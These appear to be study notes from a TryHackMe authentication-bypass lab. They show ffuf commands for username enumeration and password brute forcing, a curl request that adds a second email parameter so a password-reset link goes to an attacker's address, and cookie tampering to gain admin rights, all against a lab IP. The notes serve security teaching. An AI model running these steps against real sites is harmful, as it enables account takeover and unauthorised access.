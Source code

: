 # Authentication Bypass

## Username Enumeration

- create a list of valid usernames

If you try entering the username admin and fill in the other form fields with fake information, you'll see we get the error An account with this username already exists. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

```
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.182.156/customers/signup -mr "username already exists"
```

- -w : wordlist
- -X : request method
- -d : data to be send
- -H : header
- -u : url
- -mr : text on the page we are looking for to validate we've found a valid username.

---

## Brute Force

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, like in our case, a list of usernames.

```    
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.182.156/customers/login -fc 200
```

- -w : wordlist (W1, W2)
- W1 : usernames
- W2 : passwords
- -fc : Check for an HTTP status code other than 200.

---

## Logic Flaw

- Sometimes authentication processes contain logic flaws. 
- A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/58e63d7810ac4b23051e1dd4a24ef792.png)


#### Logic Flaw Example

**Example 1**:

The below mock code example checks to see whether the start of the path the client is visiting begins with /admin and if so, then further checks are made to see whether the client is, in fact, an admin. If the page doesn't begin with /admin, the page is shown to the client.

```
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```


Because the above PHP code example uses three equals signs (===), it's looking for an exact match on the string, including the same letter casing. The code presents a logic flaw because an unauthenticated user requesting /adMin will not have their privileges checked and have the page displayed to them, totally bypassing the authentication checks.

**Example 2**:

We're going to examine the Reset Password function of the Acme IT Support website (http://10.10.182.156/customers/reset). We see a form asking for the email address associated with the account on which we wish to perform the password reset. If an invalid email is entered, you'll receive the error message "Account not found from supplied email address".


For demonstration purposes, we'll use the email address robert@acmeitsupport.thm which is accepted. We're then presented with the next stage of the form, which asks for the username associated with this login email address. If we enter robert as the username and press the Check Username button, you'll be presented with a confirmation message that a password reset email will be sent to robert@acmeitsupport.thm.


At this stage, you may be wondering what the vulnerability could be in this application as you have to know both the email and username and then the password link is sent to the email address of the account owner.

This walkthrough will require running both of the below Curl Requests on the AttackBox which can be opened by using the Blue Button Above.

In the second step of the reset email process, the username is submitted in a POST field to the web server, and the email address is sent in the query string request as a GET field.

Let's illustrate this by using the curl tool to manually make the request to the webserver.


Curl Request 1:
```
user@tryhackme$ curl 'http://10.10.182.156/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

We use the -H flag to add an additional header to the request. In this instance, we are setting the Content-Type to application/x-www-form-urlencoded, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

- The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data.

If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

Curl Request 2:
```  
user@tryhackme$ curl 'http://10.10.182.156/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of {username}@customer.acmeitsupport.thm

Now rerunning Curl Request 2 but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

Curl Request 2 (but using your @acmeitsupport.thm account):

```
user@tryhackme:~$ curl 'http://10.10.182.156/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

---

## Cookie Tampering


- Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.

#### Plain Text

The contents of some cookies can be in plain text, and it is obvious what they do. 

Take, for example, if these were the cookie set after a successful login:

`Set-Cookie: logged_in=true; Max-Age=3600; Path=/`
`Set-Cookie: admin=false; Max-Age=3600; Path=/`

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:
Curl Request 1

```
user@tryhackme$ curl http://10.10.182.156/cookie-test
```

We can see we are returned a message of: Not Logged In

Now we'll send another request with the logged_in cookie set to true and the admin cookie set to false:

Curl Request 2
```  
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=false" http://10.10.182.156/cookie-test
```

We are given the message: Logged In As A User

Finally, we'll send one last request setting both the logged_in and admin cookie to true:

Curl Request 3
```   
user@tryhackme$ curl -H "Cookie: logged_in=true; admin=true" http://10.10.182.156/cookie-test
```

This returns the result: Logged In As An Admin as well as a flag which you can use to answer question one.


#### Hashing


- Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text.

- Same input string can significantly differ depending on the hash method in use

- Even though the hash is irreversible, the same output is produced every time.


#### Encoding


- Encoding is similar to hashing in that it creates what would seem to be a random string of text, but in fact, the encoding is reversible.

- Encoding allows us to convert binary data into human-readable text that can be easily and safely transmitted over mediums that only support plain text ASCII characters.

- Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.

`Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`

